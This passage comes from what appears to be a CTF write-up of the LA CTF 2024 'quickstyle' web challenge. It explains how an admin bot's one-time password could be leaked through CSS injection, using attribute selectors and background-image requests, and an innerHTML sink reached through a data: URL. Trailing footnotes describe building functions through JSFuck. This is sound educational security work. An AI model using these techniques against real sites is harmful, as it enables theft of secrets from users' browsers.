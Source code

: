 On the website, it presented me with,

> Please specify a user in the query!

I added `?user=1` to the URL, and the page changed to

> Your One-Time-Password is: `H6IhdwaaRtuvCgUMt5zrqcVWcBYWK85LudjvKkDyJ72k298verj8Z88suvUJbjQp9Mak2OLYhyNof1bE`

With a disabled text input containing a random string of characters.

Looking at the provided [server.js][server], there's a few things to note:

[server]: https://github.com/uclaacm/lactf-archive/blob/main/2024/web/quickstyle/server.js

- The one-time-password (OTP) is 80 characters long, selected from an alphabet of 62 possible characters (digits and uppercase and lowercase letters). It's generated every time you access a user.
- The OTP isn't stored anywhere, unless the admin bot accesses the page (identified by a special token in its cookie). In that case, the OTP is saved in a `Map` between usernames and OTPs.
- On a `/flag` page, which takes both a username `user` and the OTP `otp`, if the corresponding entry in the `Map` matches the given OTP, then the server will directly give the flag.

This meant that to get the flag, you need to have the admin bot visit <https://quickstyle.chall.lac.tf/?user=1>, somehow grab the OTP it sees, then use the OTP on the `/flag` page to get the flag.

### CSS injection: how?

Based on the challenge name and description, it seemed very likely that you would have to use CSS injection. The OTP is in a text input, so I can use CSS selectors on its `value` to do certain things depending on its contents.

```css
input[value='password'] {
  background-image: url('https://example.com/');
}
```

In the above example, if the input value is `password`, then it sets its background image to `https://example.com/`, which will make the browser send a request to the page to try to get an image from it.

CSS injections usually involve one of two methods:

- Taking advantage of CSS attribute selectors like `[value^="hello"]` or `[value*="hey"]` to test if the input value starts with or contains a certain string, respectively.
- Loading font files based on the characters used in the page.

Looking at [note.js][note], the web page accepts an additional URL parameter `page`, a URL (which could be a `data:` URL) that it fetches then inserts into the document.

[note]: https://github.com/uclaacm/lactf-archive/blob/main/2024/web/quickstyle/note.js


```js
const message = await fetch(url).then(r => r.text());
if (message.length > 6000000) return;
document.querySelectorAll('.message')[0].innerHTML = message;
document.querySelectorAll('style').forEach(s => s.remove());
```

It inserts the contents of the provided URL using `innerHTML`, which means I can perform my injection here. Curiously, it rejects `message` if it's more than 6 MB, and annoyingly it also removes all `<style>` tags.


[acmucsd]: https://acmucsd.com/communities#Cyber
[acmucla]: https://www.acmcyber.com/
[lactf]: https://lac.tf/
[jsfuck]: https://jsfuck.com/
[strings]: https://en.wikipedia.org/wiki/Strings_(Unix)
[ghidra]: https://ghidra-sre.org/
[dogbolt-aplet321]: https://dogbolt.org/?id=4c61df44-da40-4158-80b4-f4155fbf227e
[strstr]: https://cplusplus.com/reference/cstring/strstr/
[bendera]: https://en.wiktionary.org/wiki/bendera#Indonesian
[wiki]: https://id.wikipedia.org/wiki/Bendera_Indonesia
[dcode]: https://www.dcode.fr/monoalphabetic-substitution
[indofreq]: https://www.sttmedia.com/characterfrequency-indonesian
[^1]: Something I never got to use at UCSD because UCSD didn't have a two-year housing guarantee.
[^2]: The deepest darkest secret doesn't work because the server just sets it to `todo` for all non-Samy users.
[fetch]: https://developer.mozilla.org/en-US/docs/Web/API/fetch
[italics]: https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/italics
[^10]: You might be wondering how JSFuck can create a function in the first place. You can get `a` from `false` and `t` from `true`, and arrays have a method named `at`, which you can access with `[]['a' + 't']`. It's also possible to get the other letters in `constructor`, so you can use `[]['at']['constructor']` to get a reference to the `Function` constructor, which you can use to convert strings to functions. For example, `Function('return 3')` creates a function that returns 3.
[prior]: http://127.0.0.1:4000/longer-tweets/ctf/#ctf-node-calculator-escape-vm-codegeneration-false
[vuln]: https://security.snyk.io/vuln/SNYK-JS-SAFEEVAL-3373064
[gen]: ../files/lactf/lactf-jsfudge.js
[gener]: ../files/lactf/jsfudge-codegen.js
[e]: https://github.com/uclaacm/lactf-archive/blob/main/2024/rev/glottem/glottem#L10
[polyglot]: https://en.wikipedia.org/wiki/Polyglot_(computing)
[^11]: This was originally a Node-specific feature that has recently been [standardized into JavaScript][shebang], adding a fourth comment syntax to JavaScript's existing family of `//`, `/* */`, and `<!-- -->`.
[shebang]: https://github.com/tc39/proposal-hashbang
[nesting]: https://developer.mozilla.org/en-US/docs/Web/CSS/CSS_nesting
[^12]: I tried looking through my browsing history, but there's no evidence of me ever learning about this from anything online. Based on my browsing history, it just looks like I was trying things like `<span id="document">` then suddenly had a stroke of genius and tried doing `<form name=querySelectorAll>`. Then, I got confused where I got this idea from and tried to look up "form name getelementbyid injection" to find the original post.
[^13]: Again, as noted at the beginning of the article, everyone at UCSD is part of our team. I don't think this counts as cheating. At worst it's just some OSINT.
[paradox]: https://www.dcode.fr/birthday-problem
[^14]: It's possible for a trigraph to be missing a pair, like having `abc` but not `ab`, due to CSS variable collisions.
[worker]: https://workers.cloudflare.com/
[tunnel]: https://developers.cloudflare.com/cloudflare-one/connections/connect-networks/
[workers]: https://blog-cloudflare-com.webpkgcache.com/doc/-/s/blog.cloudflare.com/announcing-workers-dev/
[^15]: Like our dining halls' mobile ordering app.